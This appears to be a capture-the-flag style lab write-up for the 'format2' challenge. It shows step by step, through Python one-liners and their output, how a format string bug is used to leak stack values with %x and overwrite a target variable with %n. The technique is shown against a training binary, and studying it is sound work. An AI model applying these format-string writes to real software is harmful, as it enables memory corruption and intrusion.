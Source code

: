 **Format2**

Similar to Format1, only here we need to change to a specific value.


First, checking to see what address target is.
![](photos/Address.png)

Finding the right offset to put address in.

```diff
$ python -c "print 'AAAA' + '%x '*10" | ./format2
AAAA200 b7fd8420 bffff614 41414141 25207825 78252078 20782520 25207825 78252078 20782520 
target is 0 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*10" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 80496e4 25207825 78252078 20782520 25207825 78252078 
target is 0 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*5" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 80496e4 
```

Now, modifying target's value.

```diff
$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 
target is 39 :(
```

Hmm, why exactly 39? Let's try to play with this

```diff
$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '%n64'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 64
target is 39 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '64%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 64
target is 41 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '4%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 4
target is 40 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '5455%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 5455
target is 43 :(
```

Looks like the value of target = number of chars before %n + 39

```diff
$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + 25*'A' + '%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 AAAAAAAAAAAAAAAAAAAAAAAAA
you have modified the target :)
```

Yes!